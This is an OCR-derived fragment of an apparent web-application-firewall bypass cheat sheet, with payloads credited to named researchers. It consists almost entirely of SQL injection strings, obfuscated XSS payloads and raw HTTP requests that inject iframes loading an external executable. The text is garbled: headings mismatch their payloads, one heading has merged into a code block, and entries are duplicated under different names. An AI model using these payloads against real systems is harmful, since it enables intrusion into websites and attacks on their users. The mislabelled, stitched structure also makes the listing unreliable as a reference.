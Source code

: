 Protected Admin Scripts Bypass by @ed0x21son

```
"; select * from TARGET_TABLE --XSS Bypass by @kmkz
```

REST API Disable Bypass by @ed0x21son

```
"; select * from TARGET_TABLE --
```

### **Citrix NetScaler**

SQLi via HTTP Parameter Pollution (NS10.5) by @BGA Security

```
<script>eval(atob(decodeURIComponent("payload")))//
```

```
<script>eval(atob(decodeURIComponent("payload")))//
```

HTML Injection by @spyerror

```
<body style="height:1000px" onwheel="alert(1)"><div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)"><b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>
```

XSS Bypass by @c0d3g33k

```
<body style="height:1000px" onwheel="alert(1)"><div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)"><b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>
```

XSS Bypasses by @Bohdan Korzhynskyi

```
GET /cgi-mod/index.cgi?&primary_tab=ADVANCED&secondary_tab=test_backup_server&content_only=1&&&backup_port=21&&backup_username=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net/etc/bad-example.exe%3E&&backup_type=ftp&&backup_life=5&&backup_server=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net/etc/bad-example.exe%3E&&backup_path=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net/etc/bad-example.exe%3E&&backup_password=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net%20width%3D800%20height%3D800%3E&&user=guest&&password=121c34d4e85dfe6758f31ce2d7b763e7&&et=1261217792&&locale=en_USHost: favoritewaf.comUser-Agent: Mozilla/5.0 (compatible; MSIE5.01; Windows NT)
```

XSS Bypass by @RakeshMane10

```
GET /cgi-mod/index.cgi?&primary_tab=ADVANCED&secondary_tab=test_backup_server&content_only=1&&&backup_port=21&&backup_username=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net/etc/bad-example.exe%3E&&backup_type=ftp&&backup_life=5&&backup_server=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net/etc/bad-example.exe%3E&&backup_path=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net/etc/bad-example.exe%3E&&backup_password=%3E%22%3Ciframe%20src%3Dhttp%3A//www.example.net%20width%3D800%20height%3D800%3E&&user=guest&&password=121c34d4e85dfe6758f31ce2d7b763e7&&et=1261217792&&locale=en_USHost: favoritewaf.comUser-Agent: Mozilla/5.0 (compatible; MSIE5.01; Windows NT)
```
